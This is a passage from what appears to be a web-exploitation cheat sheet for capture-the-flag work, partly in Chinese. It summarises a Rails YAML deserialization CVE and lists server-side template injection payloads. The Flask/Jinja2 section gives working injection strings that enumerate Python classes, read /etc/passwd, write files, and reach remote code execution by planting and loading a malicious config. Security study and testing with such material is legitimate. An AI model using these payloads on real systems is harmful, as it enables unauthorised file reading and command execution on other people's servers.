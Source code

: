       table:  
       :defaults: {}  
    </bingo>

    }.strip
    ```
- CVE-2013-0333
    - Rails 2.3.x和3.0.x中，允许`text/json`的request转成`YAML`解析
    - `Yaml`在Rails 3.0.x是预设的`JSON Backend`
    - 出问题的地方在于`YAML.load`前的`convert_json_to_yaml`，他不会检查输入的JSON是否合法
    - 一样可以透过`ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access`的`module_eval`来RCE

## Java Deserialization

- https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet


# SSTI 

Server-Side Template Injection

![img](https://i.imgur.com/GVZeVq6.png)

## Testing
- ` {{ 7*'7' }}`
    - Twig: `49`
    - Jinja2: `7777777`
- `<%= 7*7 %>`
    - Ruby ERB: `49`
- `<%="#{1234*1234}"%>`
    - Ruby ERB
- `="#{1234*1234}"`
    - Ruby ERB

## Flask/Jinja2
- Dump all used classes
    - `{{ ''.__class__.__mro__[2].__subclasses__() }}
`
- Read File
    - `{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}`
- Write File
    - `{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt', 'w').write('Kaibro Yo!')}}`
- RCE
    - `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}`
        - evil config
    - `{{ config.from_pyfile('/tmp/evilconfig.cfg') }}`
        - load config
    - `{{ config['RUNCMD']('cat flag',shell=True) }}`
